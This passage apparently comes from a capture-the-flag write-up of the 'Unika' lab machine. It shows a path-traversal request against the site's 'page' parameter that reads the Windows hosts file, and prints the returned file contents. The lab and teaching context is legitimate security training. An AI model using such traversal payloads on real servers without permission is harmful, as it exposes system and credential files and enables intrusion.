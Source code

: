 ![unika](images/unika.png#center)

After clicking around, something stood out after changing the language to French - the url changed to `http://unika.htb/index.php?page=french.html`. `page` is calling a file on the server, but can't we just change this file to be something else? Say, `/etc/hosts`:

`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;:arrow_down::arrow_down::arrow_down:
```txt {linenos=false}
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft 
TCP/IP for Windows. # # This file contains the mappings of IP addresses to host names. Each # 
entry should be kept on an individual line. The IP address should # be placed in the first
column followed by the corresponding host name. # The IP address and the host name should be 
separated by at least one # space. # # Additionally, comments (such as these) may be inserted 
on individual # lines or following the machine name denoted by a '#' symbol. # # For example:
# # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host #
localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost 
```
